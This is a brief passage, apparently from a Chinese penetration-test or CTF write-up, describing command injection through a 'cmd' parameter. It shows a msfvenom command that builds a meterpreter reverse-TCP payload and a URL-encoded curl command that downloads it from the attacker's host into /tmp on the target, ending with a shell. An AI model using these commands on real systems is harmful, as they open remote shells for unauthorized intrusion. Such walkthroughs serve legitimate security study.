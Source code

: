 给到 cmd 参数即可执行命令：

[![](assets/1711556160-a0d5deeddb69faa37788b08dc9e1efa1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806203445-a036bcb6-3455-1.png)

上 msf 直接拿交互式 shell:

```plain
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.50.109.210 LPORT=9001 -f elf -o reverse.elf
```

```plain
curl%20http%3A%2F%2F10.50.109.210%3A8101%2Freverse.elf%20-o%20%2Ftmp%2Fagent
```

拿到 shell
